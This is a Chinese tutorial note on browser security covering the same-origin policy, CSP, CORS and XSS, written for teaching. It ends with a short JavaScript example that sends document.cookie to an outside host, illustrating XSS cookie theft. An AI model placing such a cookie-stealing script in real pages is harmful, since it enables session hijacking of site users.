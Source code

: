 # 浏览器安全

浏览器安全可以分为三大块——**Web 页面安全、浏览器网络安全**和**浏览器系统安全**

## 同源策略与跨域

>1. 页面中可以引用第三方资源，不过这也暴露了很多诸如 XSS 的安全问题，因此又在这种开放的基础之上引入了 CSP 来限制其自由程度。
>2. 使用 XMLHttpRequest 和 Fetch 都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
>3. 两个不同源的 DOM 是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。

### 什么是同源策略

**如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源**。

```
https://cchenzw.top/?category=1
https://cchenzw.top/?category=0

```

它们具有相同的协议 HTTP、相同的域名 cchenzw.top，以及相同的端口 443，

两个相同的源之间是可以相互访问资源和操作 DOM 的。

两个不同的源之间若想要相互访问资源或者操作 DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。

同源策略主要表现在 DOM、Web 数据和网络这三个层面。

**第一个，DOM 层面**。同源策略限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。

**第二个，数据层面**。同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。

**第三个，网络层面**。同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。

### 安全和便利性的权衡

不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。

出让安全性又带来了很多安全问题，最典型的是 XSS 攻击和 CSRF 攻击，

浏览器出让了同源策略的这一些安全性

#### **1. 页面中可以嵌入第三方资源**

恶意程序在 HTML 文件内容中插入一段 JavaScript 代码。当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器

```js
function onClick(){
  let url = `http://cilicili.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```
